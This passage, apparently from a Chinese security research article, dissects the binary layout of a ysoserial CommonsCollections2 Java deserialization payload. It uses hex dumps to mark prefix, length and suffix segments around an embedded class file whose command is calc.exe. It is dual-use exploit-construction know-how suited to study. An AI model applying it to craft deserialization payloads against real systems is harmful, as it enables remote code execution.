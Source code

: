 
## 预备

笔者在ysoserial的`PayloadRunner`里写代码导出，并且打印一下HEX，方便比较

```
private static final char[] hexCode = "0123456789ABCDEF".toCharArray();
public static String printHexBinary(byte[] data) `{`
  StringBuilder r = new StringBuilder(data.length * 2);
  for (byte b : data) `{`
    r.append(hexCode[(b &gt;&gt; 4) &amp; 0xF]);
    r.append(hexCode[(b &amp; 0xF)]);
  `}`
  return r.toString();
`}`

public static void run(final Class&lt;? extends ObjectPayload&lt;?&gt;&gt; clazz, final String[] args) throws Exception `{`
  ......
  FileOutputStream fos = new FileOutputStream("cc2.bin");
  fos.write(ser);
  System.out.println(printHexBinary(ser));
  ......
```



## 分析过程

分析生成的cc2.bin需要用xxd命令：`xxd cc2.bin`

第一处关键点：

`0000 069c`表示后面`cafe babe`开头的class文件长度，以此可以确定payload固定的开头部分。开头部分命名为`globalPrefix`，四字节的长度变量命名为`dataLen`

（如何确认到这里：肉眼审计，排除看上去是常量或系统函数的地方）

```
00000340: 6767 db37 0200 0078 7000 0000 0275 7200  gg.7...xp....ur.
00000350: 025b 42ac f317 f806 0854 e002 0000 7870  .[B......T....xp
00000360: 0000 069c cafe babe 0000 0032 0039 0a00  ...........2.9..
00000370: 0300 2207 0037 0700 2507 0026 0100 1073  .."..7..%..&amp;...s
```

以此为根据找到class文件结束位置`0x0364+0x069c=0x0a00`，从`0x364-0x0a00`这一部分都是构造`templatesImpl`的二进制，观察到`7571007e`以后的部分都是常量，以此确认结尾部分是`7571007e`往后至结尾，命名为`globalSuffix`

```
000009f0: 0011 0000 000a 0001 0002 0023 0010 0009  ...........#....
00000a00: 7571 007e 0018 0000 01d4 cafe babe 0000  uq.~............
00000a10: 0032 001b 0a00 0300 1507 0017 0700 1807  .2..............
00000a20: 0019 0100 1073 6572 6961 6c56 6572 7369  .....serialVersi
```

继续从一开始的`cafe babe`审计至`00000800: 000863616c632e657865`，`0008`表示长度为8的命令`calc.exe`，以此确认从`cafe babe`开始的class文件的开头部分，命名为`prefix`
